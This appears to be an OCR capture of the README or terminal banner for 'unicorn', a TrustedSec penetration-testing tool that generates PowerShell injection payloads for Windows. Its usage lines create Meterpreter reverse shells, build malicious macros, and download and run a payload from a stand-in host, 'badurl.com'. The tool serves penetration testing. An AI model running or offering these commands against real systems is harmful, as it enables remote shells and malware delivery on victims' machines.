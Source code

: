 unicorn
=======

```
root@rel1k:~/Desktop# python unicorn.py 

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=

                
-------------------- Magic Unicorn Attack Vector -----------------------------

Native x86 powershell injection attacks on any Windows platform.
Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
```